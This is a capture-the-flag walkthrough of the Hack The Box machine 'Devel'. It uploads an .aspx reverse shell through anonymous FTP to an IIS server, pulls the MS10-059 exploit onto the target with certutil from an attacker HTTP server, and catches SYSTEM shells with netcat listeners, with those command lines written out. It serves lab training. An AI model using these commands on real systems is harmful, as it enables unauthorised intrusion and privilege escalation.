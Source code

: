 # Devel [HTB](https://app.hackthebox.com/machines/Devel). 
![devel-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/devel-01.png)


## Recon

Lets kick off our enumeration stage with `nmap`.

`nmap -sC -sV -p -A 10.129.141.58 -oN nmap.result`


![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/nmap-res-02.png)


We have the following:

+ FTP server with anonymous logins on port 21.
+ An IIS web server on port 80.

Lets start by connecting to the FTP and see if we can write files, or find anything interesting. 


### FTP 

Lets login: 

![ftp-login-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/ftp-login-03.png)


This is the root of the web server, `iisstart.htm` is the html for the site.
The `welcome.png` is what we see if we open the site: 

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/site-04.png)


If we can upload files to the FTP, we might be able to access them from the URL.
Lets see if we can write to the FTP: 

![ftp-put-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/ftp-put-05.png)


We can. Next logical step is to upload a reverse shell and run it from the URL.
Since this is a Microsoft IIS server we should use an `.aspx` reverse shell. 

`.aspx` are webpages generated by the ASP.NET framework running on Microsoft web servers. 
When we access a `.aspx` file via the URL, it should render out the webpage, 
(A.K.A executing the file...)


I found a great `.aspx` reverse shell [here](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx). Make sure to update your IP and port: 

![aspx-sock-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/aspx-sock-05.png)


Lets upload it via the FTP: 

![aspx-upload-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/aspx-upload-06.png)


Setup the listener with `nc -lnvp 9001`


And navigate to the file via the browser at `http://10.129.141.111/rshell.aspx` : 

![browse-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/browse-07.png)


It stalls, great sign, lets check the listener: 

![shell-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/shell-08.png)


We get a shell! Lets move to privilege escalation. 


## Privilege Escalation

In order to run winpeas we need a .NET version of 4.5.2 or higher, which we dont have:
`reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP"`

![net-ver-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/net-ver-09.png)


So we cant run winpeas, how about PoweUp?, for that we need a powershell session. 
Trying to load a powershell session stalls indefinitely:

![ps-stall-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/ps-stall-10.png)


So we cant run winpeas and we cant run powershell. lets try running [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester). 
(make sure you install xlrd with `pip2 install xlrd==1.2.0`)

First we need to save the output of `systeminfo` from the target to a file on our attack machine. 
then we can run the exploit-suggester as such: 

`./windows-exploit-suggester.py --database 2023-07-18-mssb.xls --systeminfo systeminfo.txt`


![sugg-res-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/sugg-res-11.png)


Iv'e highlighted `ms10-059`, this vulnerability lays in the `Tracing for Services` feature on
Windows systems. This happens because the feature incorrectly places ACL's on registry keys,
which allows attackers to execute code with elevated privileges. As well unsafe memory allocation when processing craftred long strings.    

You can find the exploit [here](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059) save the `MS10-059.exe` file to your attack machine.


Lets transfer the exploit to our target machine. 
open an http server locally with `python3 -m http.server 8888`.

`cd` into a writable directory `cd c:\\windows\\temp` and download the exploit from the target
with `certutil -urlcache -f http://10.10.14.21:8888/MS10-059.exe ms.exe`

![transfer-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/transfer-12.png)


Start up the listener on the attack machine with `nc -lnvp 443`.

And run the exploit with `ms.exe 10.10.14.21 443`

![run-exploit-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/run-exploit-13.png)


Lets check the listener: 

![root-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/root-14png.png)


We got system! 
